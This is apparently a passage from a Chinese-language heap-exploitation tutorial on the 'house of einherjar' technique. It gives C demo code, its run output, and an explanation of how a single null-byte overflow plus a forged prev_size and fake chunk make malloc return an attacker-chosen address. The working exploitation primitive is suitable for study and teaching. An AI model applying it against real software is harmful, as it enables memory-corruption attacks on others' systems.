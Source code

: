 ```c

    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
    fprintf(stderr, "We write a fake prev_size to the last %lu bytes of a so that it will consolidate with our fake chunk\n", sizeof(size_t));
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n\n", b-sizeof(size_t)*2, fake_chunk, fake_size);

    fake_chunk[1] = fake_size;
    fprintf(stderr, "Modify fake chunk's size to reflect b's new prev_size\n");

    fprintf(stderr, "Now we free b and this will consolidate with our fake chunk\n");
    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    d = malloc(0x10);
    memset(d, 'A', 0x10);
    fprintf(stderr, "\nNow we can call malloc() and it will begin in our fake chunk: %p\n", d);
}
```

```text
$ gcc -g house_of_einherjar.c
$ ./a.out
We allocate 0x10 bytes for 'a': 0xb31010

Our fake chunk at 0x7ffdb337b7f0 looks like:
prev_size: 0x80
size: 0x80
fwd: 0x7ffdb337b7f0
bck: 0x7ffdb337b7f0
fwd_nextsize: 0x7ffdb337b7f0
bck_nextsize: 0x7ffdb337b7f0

We allocate 0xf8 bytes for 'b': 0xb31030
b.size: 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0xb31020 - 0x7ffdb337b7f0 = 0xffff80024d7b5830

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk
Our fake chunk size is now 0xffff80024d7d6811 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk: 0x7ffdb337b800
```

house-of-einherjar 是一种利用 malloc 来返回一个附近地址的任意指针。它要求有一个单字节溢出漏洞，覆盖掉 next chunk 的 size 字段并清除 `PREV_IN_USE` 标志，然后还需要覆盖 prev_size 字段为 fake chunk 的大小。当 next chunk 被释放时，它会发现前一个 chunk 被标记为空闲状态，然后尝试合并堆块。只要我们精心构造一个 fake chunk，让合并后的堆块范围到 fake chunk 处，那下一次 malloc 将返回我们想要的地址。比起前面所讲过的 poison-null-byte ，更加强大，但是要求的条件也更多一点，比如一个堆信息泄漏。
